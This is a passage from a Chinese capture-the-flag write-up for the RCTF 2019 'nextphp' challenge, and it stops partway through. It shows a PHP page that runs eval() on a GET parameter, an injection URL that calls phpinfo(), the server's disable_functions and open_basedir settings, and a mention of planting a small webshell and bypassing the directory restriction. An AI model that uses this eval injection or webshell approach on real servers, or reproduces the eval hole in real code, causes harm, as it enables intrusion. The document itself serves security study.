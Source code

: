 nextphp

这个题首页给了一个一句话

```php
<?php
if (isset($_GET['a'])) {
    eval($_GET['a']);
} else {
    show_source(__FILE__);
}
```

利用方法http://xxxx/index.php?a=;phpinfo();

收集信息:

PHP 7.4.0

**diable_functions**:

```
set_time_limit,ini_set,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,system,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,ld,mail,putenv,error_log,dl
```

**allow_url_fopen**                开启

**allow_url_include**             关闭

**open_basedir**                   /var/www/html

然后通过命令执行或者小马读取里面的文件



![2019-05-28 11-52-35 的屏幕截图](/home/aple/Documents/rctf2019/2019-05-28 11-52-35 的屏幕截图.png)

题目进行了限制目录，所以无法向上读取文件。

网上搜索open_basedir绕过